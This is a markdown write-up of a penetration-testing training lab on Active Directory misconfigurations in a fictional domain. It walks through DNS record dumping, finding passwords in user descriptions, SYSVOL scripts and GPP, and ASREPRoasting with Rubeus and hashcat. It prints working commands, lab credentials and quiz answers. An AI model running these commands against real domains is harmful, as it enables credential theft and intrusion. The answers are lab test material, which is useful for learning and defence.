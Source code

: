 <div align='center'>

# **Lab 20: Miscellaneous Misconfigurations** 

</div>

## **Enumerating DNS Records**

**Using adidnsdump**

```zsh
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

Enter the password for the user when prompted: `Klmcargo2`

We get 20 records

![](../imgs/Lab/Lab20/1.png)

**Viewing the Contents of the records.csv File**

![](../imgs/Lab/Lab20/2.png)

**Using the -r Option to Resolve Unknown Records**

```zsh
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r 
```

![](../imgs/Lab/Lab20/3.png)

**Finding Hidden Records in the records.csv File**

![](../imgs/Lab/Lab20/4.png)

## **Password in Description Field**

```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

![](../imgs/Lab/Lab20/5.png)

We can see the user `ldap.agent` with password `Sunsh1ne4All!`

## **PASSWD_NOTREQD Field**

If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all

```powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```

![](../imgs/Lab/Lab20/6.png)

**Question:** Find another user with the passwd_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".

- **Answer:** ygroce

![](../imgs/Lab/Lab20/7.png)

## **Credentials in SMB Shares and SYSVOL Scripts**

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

We see an interesting script `reset_local_admin_pass.vbs`

![](../imgs/Lab/Lab20/8.png)

**Discovering the Password in the Script**

![](../imgs/Lab/Lab20/9.png)

We can see the password `!ILFREIGHT_L0cALADmin!` may be the password for user `Administrator`

## **Group Policy Preferences (GPP) Passwords**

**Using CrackMapExec's gpp_autologin Module**

```zsh
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
```

![](../imgs/Lab/Lab20/10.png)

We can see user `guarddesk` with password `ILFreightguardadmin!`

## **ASREPRoasting**

It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled. Many vendor installation guides specify that their service account be configured in this way. The authentication service reply (AS_REP) is encrypted with the account’s password, and any domain user can request it.

**Viewing an Account with the Do not Require Kerberos Preauthentication Option**

![](../imgs/Lab/Lab20/11.png)

**Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser**

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

![](../imgs/Lab/Lab20/12.png)

We see two users: `ygroce` and `mmorgan`

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell
Rubeus.exe asreproast /user:ygroce /nowrap /format:hashcat
```

![](../imgs/Lab/Lab20/13.png)

We get the [AS-REP hash](../docs/ygroce_AS-REP.txt) for user `ygroce`

**Cracking the Hash Offline with Hashcat**

```zsh
hashcat -m 18200 ygroce_AS-REP.txt /usr/share/wordlists/rockyou.txt
```

![](../imgs/Lab/Lab20/14.png)

We get the password `Pass@word`

**Questions**: Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.

- **Answer:** Pass@word

![](../imgs/Lab/Lab20/15.png)

**Other ways to perform ASREPRoasting**

Retrieving the AS-REP Using Kerbrute

```zsh
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

![](../imgs/Lab/Lab20/16.png)

Using GetNPUsers.py

```zsh
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

![](../imgs/Lab/Lab20/17.png)